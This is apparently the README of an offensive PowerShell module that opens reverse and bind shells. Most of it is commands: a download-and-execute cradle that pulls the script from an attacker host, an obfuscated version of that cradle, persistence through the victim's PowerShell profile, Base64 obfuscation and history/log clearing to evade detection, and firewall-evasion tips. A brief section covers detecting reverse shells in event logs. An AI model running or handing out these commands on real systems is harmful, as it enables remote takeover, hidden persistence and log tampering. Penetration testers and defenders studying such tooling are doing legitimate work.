 # ReversePowerShell
__See "Command Usage:" section below for command usage details__
### [NOW IN POWERSHELL GALLERY!!!](https://www.powershellgallery.com/packages/ReversePowerShell/1.3.1)
```powershell
# Install Module
Install-Module ReversePowerShell

# Update Module
Update-Module -Name ReversePowerShell
# OR
Install-Module ReversePowerShell -Force
```
---

Functions that can be used to gain Reverse Shells with PowerShell. Invoke-ReversePowerShell function can be used to connect to Start-Listener as well as netcat and Metasploit modules or whatever other listeners you use. This is a PowerShell module meaning it only contains functions/cmdlets to be imported into a PowerShell session. If you wish to execute one of the commands whenever the file is run just add the command you wish to execute to the bottom of the file.

#### BLUE TEAM DISCOVERY
Find-ReverseShell.ps1 can be used to search the Windows Event Log for when a Reverse Shell is created that uses a System.Net.Sockets.TcpListener object. This will discover any reverse shell that creates a TcpListener object and not just the below module. This method does not catch PowerCat.ps1 which I am still looking for a good way to discover. This part is still a work in progress.

#### WAYS TO INSTALL OR IMPORT THE MODULE
This is not a requirement. It just a way of saving the module to your device if you wish to keep it around for use at later times.<br>
Install this module by placing the cloned folder "__ReversePowerShell__" inside the following directory location. You can view all available Module install directories by issung the command ```$env:PSModulePath```<br>
 __"$env:USERPROFILE\\WindowsPowerShell\\Modules\\ReversePowerShell"__ <br>
 For PowerShell Core v6 the location of this module will need to be<br>
 __"$env:USERPROFILE\\WindowsPowerShell\\ReversePowerShell"__<br>

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```
Or in cases where you want to import the module from whatever file you are in...
```powershell
Import-Module .\ReversePowerShell.psm1
```

If your are able to use Invoke-Expresion (IEX), this module (ReversePowerShell) can be imported using the following command.
You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.
Notice the .ps1 extension. When using downloadString this will need to be a ps1 file to inject the module into
memory in order to run the cmdlets.
```powershell
IEX (New-Object -TypeName Net.WebClient).downloadString("http://<attacker ipv4>/ReversePowerShell.ps1")

# To obfuscate the above command you can do something like the below command
& (`G`C`M *ke-E*) '(& (`G`C`M *ew-O*) `N`E`T`.`W`E`B`C`L`I`E`N`T)."`D`O`W`N`L`O`A`D`S`T`R`I`N`G"('htt'+'p://'+'127.0.0.1/ReversePowerShell.ps1')
```

IEX is blocked from users in most cases and Import-Module is monitored by things such as ATP. Downloading files to a target machine is not always allowed in a penetration test. Another method to use is Invoke-Command. This can be done using the following format.
```powershell
Invoke-Command -ComputerName <target device> -FilePath .'\ReversePowerShell.ps1m' -Credential (Get-Credential)
```
This will execute the file and it's contents on the remote computer.

Another sneaky method would be to have the function load at the start of a new PowerShell window. This can be done by editing the $PROFILE file.
```powershell
Write-Verbose "Creates powershell profile for user"
If (!(Test-Path -Path $PROFILE)) { New-Item -Path $PROFILE -ItemType File -Force }
#
# The $PROFILE VARIABLE IS EITHER GOING TO BE
#    - C:\Users\<username>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
# OR
#    - C:\Users\<username>\OneDrive\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
#
> Adding this module into the PowerShell $PROFILE will import all of the commands every time the executing user opens a PowerShell session. This means you will need to open a new PowerShell session after doing this in order to access the commands. Just like using ```source .bashrc``` to apply changes to the ~/.bashrc file in a linux terminal you can reload the profile by doing the following.
```powershell
cmd /c 'copy \\<attacker ip>\MyShare\ReversePowerShell.ps1 $env:USERPROFILE\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.psm1
powershell.exe # Maybe but not sure on this one
& $PROFILE
```

# Command Usage:

#### START BIND SHELL
The below command can be executed to start a bind shell that connects the defined port to PowerShell.
This command binds PowerShell to port 8088. Invoke-ReversePowerShell, netcat, ncat, metasploit, and other tools can be used to connect to this bind shell. You are able to use Ctrl + C to cancel the bind listener.
```powershell
Start-Bind -Port 8088
```

#### START LISTENER
The below command was executed to start a listener on the Attack machine on port 8089. This can be
connected too using Invoke-ReversePowerShell as well as ncat, netcat, metasploit, and other tools.
The listener can be stopped or canceld by doing Ctrl + C.
```powershell
Start-Listener -Port 8089
```

### INVOKE-REVERSEPOWERSHELL USAGE INFORMATION
__SPECIAL FEATURES OF INVOKE-REVERSEPOWERSHELL__
- __Re-Connect Loop__ This cmdlet automatically attempts to reconnect to a listener if a session get disconnected. As long as the powershell process is running it will attempt to connect back to a listener every 30 seconds. In available situations a 30 second timer is displayed. The countdown timer can be viewed in the image below.
![Reconnection Timer Loop](https://raw.githubusercontent.com/tobor88/ReversePowerShell/master/images/ReconnectTimer.png)
- __Obfuscation__ parameter can be used to obfuscate executed commands using Base64. The Event Viewer will show logs such as the ones in the below image when this parameter is defined.
![Obfuscation in Event Viewer](https://raw.githubusercontent.com/tobor88/ReversePowerShell/master/images/PSObfuscatedEventLog.png)
- __Clear History__ parameter can be used to clear the current sessions command history and log file. The purpose of this is to help keep clear text passwords from appearing in log files.

#### ISSUE REVERSE SHELL CONNECTION
The below command is to be issued on the Target Machine. The below command connected to the listener over port 8089.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089
```

In the below command the listening port 8089 on 192.168.0.10 is connected too. When the session is exited the -ClearHistory parameter specified attempts to clear your sessions command history as well as clear the powershell log file.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089 -ClearHistory
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089 -ClearHistory
```

The below command is to be issued on the Target Machine. The below command connected to the listener over port 8089. The -Obfuscate parameter obfuscates the commands executed using Base64 so they do not appear in clear text in the Event Log.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089 -Obfuscate
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089 -Obfuscate
```

#### ISSUE BIND SHELL CONNECTION
The below command is used to connect to a listening Bind Shell port. Any of the special parameters can be used to with the Bind parameter set name as well.
```powershell
Invoke-ReversePowerShell -Bind -IpAddress 192.168.0.10 -Port 8089
```

#### FIND EVIDENCE OF REVERSE SHELL CONNECTION
```powershell
# Check the localhost for evidence of reverse shell in the event logs
Find-ReversePowerShell

# Checks remote computer DC01 for evidence of a shell connection and saves the event results to C:\Temp\results.xml
Find-ReverseShell -ComputerName DC01.domain.com -FilePath C:\Temp\Results.xml
```

---
# MISC INFO
#### FIREWALL AND BLOCKED PORTS
If you are not able to gain a connection it is most likely due to the Windows Firewall. If you have access on a machine as a user you will not be able to make firewall changes. You need admin priviledges for that. Use the high range ports RPC would connect to or other common port. If a range has been defined you can find the allowed ports at "HKLM:\Software\Microsoft\Rpc\Internet\ with Entry name Data Type". Otherwise when not defined any ports between 49152-65535 might work.
This command may also display the port allowed RPC port range
```cmd
netsh int ipv4 show dynamicport tcp
```

The following commands can be used to view firewall rules. If one of these does not work.
the other might.
```powershell
# This way should work to display the firewall even if you are a user
$FirewallRule = New-Object -ComObject HNetCfg.FwPolicy2
$FirewallRule.Rules | Select-Object -Property *

# OR
Get-NetFirewallRule | Where-Object { $_.Enabled –eq ‘True’ –and $_.Direction –eq ‘Inbound’ }
Show-NetFirewallRule

# OR
cmd /c netsh advfirewall firewall show rule name=all
```

#### VERIFY LISTENING PORTS
You can verify/view actively listening ports on the target computer by issuing the following command.
```powershell
Get-NetTcpConnection -State Listen
```
or if you are a command prompt kind of person;
```powershell
netstat -q
```
